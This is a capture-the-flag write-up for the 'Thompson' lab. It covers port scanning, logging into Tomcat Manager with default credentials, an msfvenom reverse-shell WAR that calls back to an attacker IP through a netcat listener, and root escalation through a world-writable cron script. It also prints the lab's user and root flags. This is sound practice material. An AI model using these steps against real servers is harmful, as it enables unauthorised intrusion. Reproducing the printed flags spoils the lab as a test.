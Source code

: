 # Thompson Write-Up:

I started with an NMap scan:

```
sudo nmap -sS -sC -sV -vv -oN nmap-out 10.10.229.59
```

Got the following ports:

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   syn-ack ttl 63 Apache Jserv (Protocol v1.3)
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat 8.5.5
```

Ran a GoBuster scan. Got the following:

```
http://10.10.219.96:8080/docs (Status: 302)
http://10.10.219.96:8080/examples (Status: 302)
http://10.10.219.96:8080/manager (Status: 302)
http://10.10.219.96:8080/docs/index.html (Status: 200)
http://10.10.219.96:8080/docs/images (Status: 302)
http://10.10.219.96:8080/docs/comments.html (Status: 200)
http://10.10.219.96:8080/docs/developers.html (Status: 200)
http://10.10.219.96:8080/docs/introduction.html (Status: 200)
http://10.10.219.96:8080/docs/api (Status: 302)
http://10.10.219.96:8080/docs/changelog.html (Status: 200)
http://10.10.219.96:8080/docs/architecture (Status: 302)
http://10.10.219.96:8080/docs/config (Status: 302)
http://10.10.219.96:8080/docs/extras.html (Status: 200)
http://10.10.219.96:8080/docs/setup.html (Status: 200)
http://10.10.219.96:8080/docs/building.html (Status: 200)
http://10.10.219.96:8080/docs/monitoring.html (Status: 200)
http://10.10.219.96:8080/examples/index.html (Status: 200)
http://10.10.219.96:8080/examples/jsp (Status: 302)
http://10.10.219.96:8080/examples/servlets (Status: 302)
```

## Tomcat Exploration:

I checked out the main page (http://10.10.111.19:8080/) on my browser:

![tomcatpage](./screenshots/tomcatpage.png)

I clicked on the **Manager App** link and got a login prompt. I looked up the default credentials for Tomcat and tried them out. Username: tomcat, password: s3cret.

It worked!

![managerpage](./screenshots/managerpage.png)

I then used **msfvenom** to create a malicious **revshell.war** file to deploy onto the server. This file will allow me to create a reverse shell:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.221.49 LPORT=1234 -f war -o revshell.war
```

I then uploaded the **revshell.war** file onto the server:

![uploadrevshell](./screenshots/uploadrevshell.png)

I set up a Netcat listener on my local machine:

```
sudo nc -nvlp 1234
```

I then opened the uploaded file at **{MACHINE_IP}:8080/revshell/**

I now have a shell!

I found the file **/home/jack/user.txt**

```
tomcat $ cat /home/jack/user.txt

39400c90bc683a41a8935e4719f181bf
```

That is the User Flag!

## Privilege Escalation:

I looked in the **/home/jack** directory:

![jackdir](./screenshots/jackdir.png)

There is a file: **id.sh** that is writable by all users:

```shell
#!/bin/bash
id > test.txt
```

I can make arbitrary modifications to this script.

I looked in the **/etc/crontab** file, and it has an every-minute cron-job that runs the **id.sh** script as root!

```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
```

Since I can make modifications to run arbitrary code on the **id.sh** script, and that script runs as root every minute, I can read resticted files by making modifications to the **id.sh** file!

I appended a command to the end of the **id.sh** file:

```
echo 'cat /root/root.txt > info.txt' >> id.sh
```

After a minute, a new **info.txt** file was created in the **/home/jack** directory. I opened it:

```
d89d5391984c0450a95497153ae7ca3a
```

That's our root flag! I hope you enjoyed!
